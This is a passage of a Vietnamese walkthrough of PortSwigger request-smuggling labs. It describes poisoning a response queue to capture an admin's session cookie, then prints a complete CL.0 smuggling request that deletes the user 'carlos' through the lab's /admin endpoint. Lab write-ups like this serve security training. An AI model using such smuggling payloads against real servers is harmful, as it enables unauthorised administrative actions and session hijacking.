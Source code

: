 ![image](https://hackmd.io/_uploads/BygYfx3a6.png)

Send request để poison response queue. Send liên tục cho đến khi nhận được response 302 chứa cookie → đây là response sau khi admin đăng nhập thành công.

## 12. Lab: CL.0 request smuggling

link: https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling

### Đề bài

![image](https://hackmd.io/_uploads/Bkzlwg2pp.png)

### Phân tích

- Phòng thí nghiệm này dễ bị tấn công trái phép theo yêu cầu CL.0. Máy chủ phụ trợ bỏ qua Content-Lengthtiêu đề trong các yêu cầu tới một số điểm cuối.

- Để giải quyết vấn đề lab, hãy xác định điểm cuối dễ bị tấn công, gửi yêu cầu đến back-end để truy cập vào bảng quản trị tại /admin, sau đó xóa người dùng carlos.

### Khai thác

- Tại request load các resources bị smuggled.

![image](https://hackmd.io/_uploads/ryGu_x36T.png)

Xóa user carlos.

```http!
GET /resources/labheader/images/logoAcademy.svg HTTP/2
Host: 0aca003a03504830825a07d0009100cb.web-security-academy.net
Cookie: session=6YS52cjBCt8Sx0GyFG4ZBBYvKzb5Q1c5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: image/avif,image/webp,*/*
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0aca003a03504830825a07d0009100cb.web-security-academy.net/resources/labheader/css/academyLabHeader.css
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Length: 61

GET /admin/delete/?username=carlos HTTP/1.1
X: ta9huash7z
```

![image](https://hackmd.io/_uploads/HJUjOeh6a.png)

và lab đã được solve
